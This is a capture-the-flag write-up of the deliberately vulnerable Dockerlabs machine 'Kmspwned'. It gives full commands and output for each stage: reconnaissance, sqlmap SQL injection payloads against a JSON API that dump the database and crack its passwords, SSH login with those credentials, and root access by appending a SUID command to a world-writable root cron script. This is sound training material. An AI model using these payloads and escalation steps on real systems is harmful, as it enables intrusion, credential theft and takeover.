







# Kmspwned

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| Kmspwned | b4d1t | easy | dockerlabs |

**Summary:** Kmspwned is a deliberately vulnerable web application that simulates a domain and hosting service called ServiCloud. The application exposes a SQL injection vulnerability in its JSON API endpoint, specifically through a search functionality that queries a MariaDB database without sanitization. Through time based blind SQL injection, the attacker extracts the full database schema, recovering user credentials (including those for the admin panel), internal notes revealing the backup script location, and both user and admin flags. The recovered credentials gain SSH access to the machine as user `carlos`. Internal enumeration reveals a world writable backup script running as root via cron. The attacker appends a privilege escalation payload to the script, obtaining a root shell and capturing the final flag. The vulnerability chain combines SQL injection for credential recovery, credential reuse for lateral movement, and a cron based misconfiguration for privilege escalation.

---

## Reconnaissance

1. The target machine was deployed using the Dockerlabs auto deploy script, which assigned it the IP address `172.17.0.2`.

2. A full port scan was performed with Nmap to identify all open services:

```bash
nmap -sC -sV -p- -T4 172.17.0.2
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-19 11:18 WIB
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u7 (protocol 2.0)
| ssh-hostkey:
|   3072 8e:f1:fb:9a:77:7e:83:c7:80:dc:fb:f8:45:d9:f6:7c (RSA)
|   256 32:d9:49:d1:18:4e:7c:2a:7c:12:77:6d:50:fe:b8:ea (ECDSA)
|_  256 8d:5e:df:ab:f3:30:86:e7:41:74:10:b9:59:2e:55:4e (ED25519)
80/tcp open  http    Apache httpd 2.4.67 ((Debian))
|_http-title: ServiCloud \xE2\x80\x94 Dominios, Hosting y Aplicaciones
|_http-server-header: Apache/2.4.67 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan reveals two open ports: SSH on port 22 and an Apache HTTP server on port 80 hosting a site titled "ServiCloud Dominios, Hosting y Aplicaciones."

3. Directory enumeration was launched with Gobuster to map the web application's structure:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html,txt,json,js,bak,sql,zip,tar,env
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              bak,sql,zip,tar,php,json,env,html,txt,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 6231]
/login.php            (Status: 200) [Size: 2192]
/admin                (Status: 301) [Size: 348] [--> http://172.17.0.2/admin/]
/lib                  (Status: 301) [Size: 346] [--> http://172.17.0.2/lib/]
/db.php               (Status: 200) [Size: 0]
/auth.php             (Status: 200) [Size: 0]
/panel.php            (Status: 302) [Size: 0] [--> login.php]
/registro.php         (Status: 200) [Size: 2191]
/server-status        (Status: 403) [Size: 315]
===============================================================
Finished
===============================================================
```

The discovery reveals interesting endpoints including a login page, a registration page, an admin directory, a `panel.php` that redirects to login, and database related files such as `db.php` and `auth.php` that return empty responses.

4. The landing page of the web application was examined:



The application presents itself as a hosting and domain registration service. The interface offers a search functionality for checking domain availability.

## Initial Access

5. A new user account was registered through the `registro.php` page, and after logging in, the user panel became accessible:



6. The domain search functionality was tested with SQL injection payloads to check for input sanitization issues:



7. While the initial injection attempts did not yield visible results on the page:



8. Closer inspection of the page source code revealed the underlying mechanism. The search query is sent as a JSON payload to an API endpoint at `/lib/kms_api.php`:



9. Burp Suite (or a similar proxy) was used to intercept the outgoing request. The raw POST body showed the exact JSON structure being transmitted:





The captured request demonstrates the exact format used by the application to communicate with the backend API:

```bash
POST /lib/kms_api.php HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: id,en-US;q=0.9,en;q=0.8,id-ID;q=0.7,la;q=0.6
Connection: keep-alive
Content-Length: 60
Content-Type: application/json
Cookie: PHPSESSID=ddhhjgnlpta1lhgn24756u64nv
Host: 172.17.0.2
Origin: http://172.17.0.2
Referer: http://172.17.0.2/panel.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36

{"accion":"buscar_extension","params":{"extension":"usuar"}}
```

10. The intercepted request was saved to a file and passed to sqlmap for automated exploitation:

```bash
sqlmap -r req.txt --batch --dump -v 0
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.11#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:34:03 /2026-07-19/

JSON data found in POST body. Do you want to process it? [Y/n/q] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON extension ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"accion":"buscar_extension","params":{"extension":"ai' AND (SELECT 6359 FROM (SELECT(SLEEP(5)))QcvQ) AND 'ATOC'='ATOC"}}

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: {"accion":"buscar_extension","params":{"extension":"ai' UNION ALL SELECT NULL,NULL,CONCAT(0x7178627071,0x6e544c454a786355466c594f714363487570425773554d6b7a6a5755784757617665566378596c71,0x7176766271)-- -"}}
---
web server operating system: Linux Debian
web application technology: Apache 2.4.67
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
Database: servicloud_erp
Table: sc_clientes
[3 entries]
+----+-----------+-----------------------+------------------+-----------+--------------------------+
| id | nif       | email                 | nombre           | telefono  | direccion                |
+----+-----------+-----------------------+------------------+-----------+--------------------------+
| 1  | B12345678 | info@empresa-demo.com | Empresa Demo SL  | 912000001 | Calle Mayor 1, Madrid    |
| 2  | 12345678A | test@autonomo.es      | Autonomo Ejemplo | 912000002 | Gran Via 2, Madrid       |
| 3  | F98765432 | hola@techstart.es     | TechStart SL     | 912000003 | Calle Nueva 5, Barcelona |
+----+-----------+-----------------------+------------------+-----------+--------------------------+

Database: servicloud_erp
Table: sc_notas
[2 entries]
+----+-------------------------------------------------------------------------------+--------+---------------------+
| id | nota                                                                          | autor  | creada              |
+----+-------------------------------------------------------------------------------+--------+---------------------+
| 1  | El panel de administracion esta en /admin/. Credenciales en la base de datos. | carlos | 2026-07-19 05:30:07 |
| 2  | Script de backup en /opt/backup.sh pendiente revisar permisos.                | admin  | 2026-07-19 05:30:07 |
+----+-------------------------------------------------------------------------------+--------+---------------------+

Database: servicloud_erp
Table: sc_flags
[2 entries]
+----+-----------------------------+--------------+
| id | flag                        | nombre       |
+----+-----------------------------+--------------+
| 1  | flag{sqli[REDACTED]}        | flag_usuario |
| 2  | flag{adm1n[REDACTED]}       | flag_admin   |
+----+-----------------------------+--------------+

Database: servicloud_erp
Table: sc_facturas
[3 entries]
+----+------------+---------------------+-----------+---------+-------------------------+
| id | cliente_id | creada              | estado    | importe | concepto                |
+----+------------+---------------------+-----------+---------+-------------------------+
| 1  | 1          | 2026-07-19 05:30:07 | pagada    | 599.00  | Hosting anual + dominio |
| 2  | 2          | 2026-07-19 05:30:07 | pendiente | 1200.00 | Servidor cloud 6 meses  |
| 3  | 3          | 2026-07-19 05:30:07 | pagada    | 350.00  | Licencia ERP anual      |
+----+------------+---------------------+-----------+---------+-------------------------+

Database: servicloud_erp
Table: web_usuarios
[1 entry]
+----+---------------+---------------------+---------+-----------------------------------------------+
| id | email         | creado              | usuario | password                                      |
+----+---------------+---------------------+---------+-----------------------------------------------+
| 1  | mail@mail.com | 2026-07-19 05:31:14 | usuar   | e807f1fcf82d132f9bb018ca6738a19f (1234567890) |
+----+---------------+---------------------+---------+-----------------------------------------------+

Database: servicloud_erp
Table: sc_usuarios
[3 entries]
+----+---------+----------------------+---------------------+---------+----------------------------------------------+
| id | rol     | email                | creado              | usuario | password                                     |
+----+---------+----------------------+---------------------+---------+----------------------------------------------+
| 1  | admin   | admin@servicloud.dl  | 2026-07-19 05:30:07 | admin   | c378985d629e99a4e86213db0cd5e70d (chocolate) |
| 2  | gestor  | carlos@servicloud.dl | 2026-07-19 05:30:07 | carlos  | 7c6a180b36896a0a8c02787eeafb0e4c (password1) |
| 3  | usuario | ana@servicloud.dl    | 2026-07-19 05:30:07 | ana     | b33e0dcc9e2d7a1649d96831260b5698 (ana1234)   |
+----+---------+----------------------+---------------------+---------+----------------------------------------------+

Database: servicloud_erp
Table: sc_extensiones
[8 entries]
+----+--------+--------+-----------+
| id | activo | precio | extension |
+----+--------+--------+-----------+
| 1  | 1      | 9.99   | com       |
| 2  | 1      | 8.99   | net       |
| 3  | 1      | 7.99   | org       |
| 4  | 1      | 5.99   | es        |
| 5  | 1      | 6.99   | eu        |
| 6  | 1      | 19.99  | io        |
| 7  | 1      | 12.99  | dev       |
| 8  | 1      | 14.99  | app       |
+----+--------+--------+-----------+

[*] ending @ 12:34:03 /2026-07-19/
```

sqlmap identified a time based blind SQL injection in the `extension` parameter. It dumped the entire `servicloud_erp` database, revealing critical information. The `sc_usuarios` table contained credentials for three users: `admin`, `carlos`, and `ana`. The `sc_notas` table contained two high value notes: one directing to the admin panel at `/admin/` with credentials in the database, and another mentioning a backup script at `/opt/backup.sh` with a note to review its permissions. Two flags were also recovered from the `sc_flags` table.

11. Using the cracked password for `carlos` (password: `password1`), an SSH session was established to the target machine:

```bash
ssh carlos@172.17.0.2
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
carlos@172.17.0.2's password:
Linux bab292643189 6.18.33.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun 18 21:54:43 UTC 2026 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
carlos@bab292643189:~$ id
uid=1000(carlos) gid=1000(carlos) groups=1000(carlos)
carlos@bab292643189:~$ ls -la
total 28
drwxr-xr-x 1 carlos carlos 4096 Jul  8 17:14 .
drwxr-xr-x 1 root   root   4096 Jul  8 17:13 ..
lrwxrwxrwx 1 root   root      9 Jul  8 17:14 .bash_history -> /dev/null
-rw-r--r-- 1 carlos carlos  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 carlos carlos 3526 Mar 27  2022 .bashrc
-rw-r--r-- 1 carlos carlos  807 Mar 27  2022 .profile
-rw-r--r-- 1 root   root     70 Jul  8 17:13 notas.txt
-rw-r--r-- 1 root   root     33 Jul  8 17:13 user.txt
carlos@bab292643189:~$ cat user.txt
flag{l4t3r4l[REDACTED]}
carlos@bab292643189:~$ cat notas.txt
Recordatorio: revisar permisos del script de backup en /opt/backup.sh
```

The user flag was captured immediately from `user.txt`. The `notas.txt` file confirmed the earlier database finding about the backup script.

## Privilege Escalation

12. Inspection of the backup script at `/opt/backup.sh` confirmed it was world writable (permissions `-rwxrwxrwx`):

```bash
carlos@bab292643189:~$ ls -la /opt/
total 12
drwxr-xr-x 1 root root 4096 Jul  8 17:13 .
drwxr-xr-x 1 root root 4096 Jul 19 05:30 ..
-rwxrwxrwx 1 root root  157 Jul  8 17:13 backup.sh
carlos@bab292643189:~$ cat /opt/backup.sh
#!/bin/bash
# Copia de seguridad diaria
tar -czf /tmp/backup_$(date +%Y%m%d).tar.gz /var/www/html/ 2>/dev/null
echo "Backup: $(date)" >> /var/log/backup.log
```

13. The system crontab revealed that this script runs every minute as root:

```bash
carlos@bab292643189:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /opt/backup.sh
```

14. The exploit was straightforward. A command was appended to the writable backup script to set the SUID bit on `/bin/bash`:

```bash
carlos@bab292643189:~$ echo 'chmod +s /bin/bash' >> /opt/backup.sh
carlos@bab292643189:~$ watch -n 1 ls -la /bin/bash
```

15. Within a minute, the cron job executed the modified script, and the SUID bit was set:

```bash
carlos@bab292643189:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

16. Executing bash with the `-p` flag (preserving privileges) granted an effective UID of root:

```bash
carlos@bab292643189:~$ bash -p
bash-5.1# id
uid=1000(carlos) gid=1000(carlos) euid=0(root) egid=0(root) groups=0(root),1000(carlos)
```

17. The shell environment was stabilized and root access was confirmed:

```bash
bash-5.1# php -r 'posix_setuid(0); posix_setgid(0); system("/bin/bash");'
root@bab292643189:~# id
uid=0(root) gid=0(root) groups=0(root),1000(carlos)
root@bab292643189:~# su - root
root@bab292643189:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
bab292643189
root@bab292643189:~# cat root.txt
flag{r00t[REDACTED]}
```

The root flag was captured, completing the full compromise of the Kmspwned machine.

---

## Attack Chain Summary

1. **Reconnaissance**: Nmap scanning revealed SSH and HTTP services. Gobuster directory enumeration mapped the web application structure, revealing key endpoints including login, registration, panel, and a lib directory.

2. **Vulnerability Discovery**: Analysis of the application's page source and intercepted HTTP requests revealed that the domain search functionality sends JSON payloads to `/lib/kms_api.php`. The `extension` parameter was found to be injectable via time based blind SQL injection.

3. **Exploitation**: sqlmap automated the exploitation of the SQL injection, dumping the entire `servicloud_erp` database. This yielded user credentials, internal notes (including the admin panel path and backup script location), and both flags from the `sc_flags` table.

4. **Internal Enumeration**: The cracked password for user `carlos` provided SSH access. The user flag was captured from `user.txt`. Inspection of `/opt/backup.sh` showed it was world writable, and `/etc/crontab` confirmed it executed as root every minute.

5. **Privilege Escalation**: A `chmod +s /bin/bash` command was appended to the backup script. When the cron job ran, it set the SUID bit on bash, allowing the attacker to spawn a root shell with `bash -p` and capture the root flag from `root.txt`.
